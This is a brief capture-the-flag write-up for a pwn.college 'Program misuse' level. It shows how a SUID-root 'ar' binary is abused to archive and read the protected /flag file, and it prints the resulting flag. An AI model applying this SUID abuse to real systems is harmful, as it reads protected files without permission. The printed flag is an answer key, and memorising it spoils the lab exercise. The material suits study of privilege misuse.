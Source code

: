 # pwn.college - Fundamentals - Program misuse - Level 21
```
$ /challenge/babysuid_level21
```
The SUID bit on `/usr/bin/ar` is set
```
$ ar r flag.a /flag
$ cat flag.a | grep --color=never pwn.college{.*}
```
`pwn.college{0qU78AyYpbFdrYlIDjdNlZ3dvsi.01M2EDLyYjNyEzW}`